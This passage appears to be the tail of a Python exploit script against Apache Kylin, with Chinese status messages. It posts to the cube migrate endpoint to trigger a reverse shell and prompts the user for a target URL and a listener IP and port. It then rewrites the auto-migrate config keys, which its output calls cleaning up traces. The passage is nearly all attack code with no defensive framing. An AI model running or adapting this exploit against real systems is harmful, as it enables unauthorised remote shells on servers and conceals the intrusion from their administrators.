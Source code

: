 ```
            sys.exit(0)
def POC_3(target_url, cookie):
    print("\033[35m[o] 正在反弹shell......\033[0m")
    vuln_url = target_url + "/kylin/api/cubes/kylin_sales_cube/learn_kylin/migrate"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }
    try:
        response = requests.post(url=vuln_url, headers=headers)
        POC_4(target_url, cookie)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
def POC_4(target_url, cookie):
    config_url = target_url + "/kylin/api/admin/config"
    key = ["kylin.tool.auto-migrate-cube.enabled", "kylin.tool.auto-migrate-cube.src-config",
           "kylin.tool.auto-migrate-cube.dest-config"]
    value = ["flase", "echo;echo;echo", "None"]
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Authorization": Authorization,
        "Accept": "application/json, text/plain, */*",
        "Content-Type": "application/json;charset=UTF-8",
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }
    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)
    print("\033[35m[o] 成功清理痕迹\033[0m")
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    try:
        cookie,Authorization = POC_1(target_url)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_2(target_url, cookie, IP, PORT, Authorization)
    POC_3(target_url, cookie)
```
